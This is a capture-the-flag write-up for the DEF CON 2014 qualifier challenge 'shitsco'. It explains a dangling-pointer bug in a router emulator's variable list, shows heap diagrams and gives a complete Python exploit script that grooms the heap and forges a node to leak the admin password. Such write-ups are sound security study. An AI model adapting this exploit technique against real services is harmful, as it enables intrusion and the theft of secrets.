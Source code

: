 # DEF CON CTF Qualifier 2014: shitsco

**Category:** Gynophage
**Points:** 2
**Description:**

> [http://services.2014.shallweplayaga.me/shitsco_c8b1aa31679e945ee64bde1bdb19d035](shitsco_c8b1aa31679e945ee64bde1bdb19d035) is running at:
>
> `shitsco_c8b1aa31679e945ee64bde1bdb19d035.2014.shallweplayaga.me:31337`
>
> Capture the flag.

## Write-up

Shitsco is a small router emulator. It allows you to ping, to tracert, to use the shell (Yhea, right! :D) and to set and view variables. 

As we smell a rat in the variable handling we look into it.

Variables get stored dynamically in a double linked list as shown next.

```c
struct node {
    char *name;
    char *value;
    struct node *next;
    struct node *prev;
};
```

If you create a couple of nodes and delete the first, its strings get freed, their pointers set to NULL but not the link to the next node. Further, commands like show will always start the traversal by the first node, which will succeed until the corresponding memory gets overwritten. Thats what we gonna exploit.

The key is to set variable name and value the same size as a node internally has -> 4 * 4bytes = 16bytes.
So that when adding nodes, the strings and the node itself consume the same amount of memory. 


The following is the memory layout with 3 nodes added(= 3 variables set). Note that there is no first node. The first node is in static memory. Also, every allocated heap block has the same length(size).

```
--------------------------------------------------------------
                   /----link----\
HEAP: [ S ][ S ][ N ][ S ][ S ][ N ][ S ][ S ]    N = Node
                 ^                                S = String
                 |
first.next ------/
--------------------------------------------------------------
```

Because of a bug in the system, the first node never gets unlinked properly.
When we delete it, only the strings get freed and set to NULL. The *next pointer stays the same.

```
--------------------------------------------------------------
                   /----link----\
HEAP: [   ][   ][ N ][ S ][ S ][ N ][ S ][ S ]
first.next ------/
--------------------------------------------------------------
```

Deleting also the second results as depicted next.

```
--------------------------------------------------------------
                   /----link----\
HEAP: [   ][   ][   ][   ][   ][ N ][ S ][ S ]
first.next ------/
--------------------------------------------------------------
```

The linked list is still intact because the *next pointers never gets set to NULL when deleting the fist node in the list.

When we now create a new node, the system will use the first static node again and just looks to allocate memory for the name and value. As we created uni-sized blocks, the malloc algorithm would use simply the first two free blocks again. Better would have been, if we had set the first block to a smaller size, let's say 11bytes, so the allocations would be like below.


```
--------------------------------------------------------------
 small\          /----link----\
HEAP: [ ][   ][   ][   ][   ][ N ][ S ][ S ]
first.next ----/
--------------------------------------------------------------
```

If we create now a new variable with 16bytes strings, the malloc algorithm would shift right by one because the first block is too small for both. That results in having the value string in the location the *first.next pointer still points to. By using good values for the string and link pointers we can get the password out of the memory.

>set_var(s, 'HACKHACKHACKHACK', pack('i', PASSWORD_ADDR) * 2 + pack('i', NULL_NODE_ADDR))


```
--------------------------------------------------------------
                 /----link----\
HEAP: [ ][ S ][ X ][   ][   ][ N ][ S ][ S ]    X = Fake node
first.next ----/
--------------------------------------------------------------
```

After getting the password, we just have needed to use it
> enable SecretPassword
>
> flag

unfotunately, we were not able to solve it in time.


## exploit.py

Set ip and port and use it with ./exploit.py or ./exploit.py -d

```python
#!/bin/python2
import socket
from struct import pack
import logging
import sys

# SETTINGS
###################################
TARGET = 'shitsco_c8b1aa31679e945ee64bde1bdb19d035.2014.shallweplayaga.me:31337
#TARGET = 'localhost:5000'

PASSWORD_ADDR =  0x804c3a0
NULL_NODE_ADDR = 0x804c37c

# Don't touch things below
TCP_IP, TCP_PORT = TARGET.split(':')
TCP_PORT = int(TCP_PORT)

BUF_SIZE = 2000
MARKER = 'aaa: '

# LOGGING
logging.basicConfig(format='%(message)s')
log = logging.getLogger(__name__)
if '-d' in sys.argv: log.setLevel(logging.DEBUG)
else: log.setLevel(logging.INFO)
D = log.debug
I = log.info

# HELPERS
###################################
def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((TCP_IP, TCP_PORT))
    data = s.recv(BUF_SIZE)
    D(data)
    return s

def disconnect(s):
    s.send('quit\n')
    data = s.recv(BUF_SIZE)
    D(data)
    s.close()

def show(s):
    cmd = 'show'
    s.send(cmd + '\n')
    data = s.recv(BUF_SIZE)
    D(cmd)
    D(data)
    return data

def set_var(s, name, value='1'):
    cmd = 'set %s %s' % ( name, value)
    s.send(cmd + '\n')
    data = s.recv(BUF_SIZE)
    D(cmd)

def del_var(s, name):
    cmd = 'set %s' % name
    s.send(cmd + '\n')
    data = s.recv(BUF_SIZE)
    D(cmd)

# MAIN
###################################
s = connect()

set_var(s, 'a' * 11, '01234567890ABCDEF')
set_var(s, 'b' * 16, 'AKABKN|OWNS!!!111')
set_var(s, 'C' * 16, 'XXXXXXXXXXXXXXXXX')

del_var(s, 'a' * 11)
del_var(s, 'b' * 16)

set_var(s, 'HACKHACKHACKHACK', pack('i', PASSWORD_ADDR) * 2 + pack('i', NULL_NODE_ADDR))

data = show(s)
found = data.find(MARKER) if data else 0

if found:
    I('Password: %s', data[found + len(MARKER):data.find('\n$')])

disconnect(s)
```

## Other write-ups

* (none yet)
